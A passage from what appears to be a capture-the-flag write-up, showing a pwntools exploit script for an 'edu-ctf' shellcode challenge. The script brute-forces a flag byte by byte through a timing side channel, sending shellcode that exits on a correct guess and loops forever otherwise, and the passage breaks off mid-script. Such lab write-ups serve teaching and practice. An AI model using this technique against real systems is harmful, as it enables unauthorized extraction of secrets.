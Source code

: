             {create shellcode}
            {send shellcode}

            try:
                ...
            except:
                ...
            r.close()
        shift_count += 1
        flag += chr(guess)
    print(flag)
    r.interactive()
    ```



* Whole exploit
    :::spoiler code
    ```python!=
    from pwn import *

    # r = process('./chal')
    context.arch = 'amd64'

    flag = ''
    shift_count = 0
    while shift_count < 8:
        guess = 0x20
        while guess < 0x80 :
            # r = process('./chal')
            r = remote('edu-ctf.zoolab.org',10002)
            shellcode = asm('''
                mov r10, r13
                add r10, 0x2db7
                mov rax, [r10]
                mov cl, ''' + str(guess) + '''
                shr rax, ''' + str(8*shift_count) + '''
            Compare:
                cmp al, cl
                je the_same
            infinity1:
                jmp infinity1
            the_same:
                mov rax, 0x3c
                mov rdi, 0
                syscall
            ''')
            # raw_input()
            r.sendafter(b"code\n\x00", shellcode)
            try :
                # If compare not correct, guess++ and access to infinity loop
                r.recv(timeout=0.2)
                print('not the same')
                guess += 1
            except:
                # If compare correct, pwntool will break out
                print('the same')